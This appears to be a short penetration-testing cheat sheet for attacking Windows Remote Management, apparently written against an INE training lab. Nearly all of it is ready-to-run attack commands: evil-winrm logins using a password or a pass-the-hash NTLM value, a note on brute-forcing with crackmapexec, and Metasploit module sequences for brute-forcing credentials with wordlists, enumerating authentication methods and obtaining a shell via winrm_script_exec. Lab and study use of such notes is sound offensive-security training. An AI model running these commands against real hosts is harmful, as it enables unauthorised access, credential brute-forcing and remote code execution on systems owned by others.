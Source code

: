# WinRM

---

#### Manual Exploitation


"evil-winrm" enables us a command shell session on the target system.

```
evil-winrm -i <target_ip> -u administrator -p 'password123' 
```

```
evil-winrm -i <target_ip> -u Administrator -H 6bc99ede9edcfecf9662fb0c0ddcfa7a
```

crackmapexec can bruteforce winrm


#### Brute-Forcing with Metasploit

msfconsole -q
use auxiliary/scanner/winrm/winrm_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set PASSWORD anything
exploit

#### Enumerating Authentification Method using Metasploit

msfconsole -q
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS demo.ine.local
exploit

#### Getting Shell with Metasploit

use exploit/windows/winrm/winrm_script_exec
set RHOSTS demo.ine.local
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
exploit

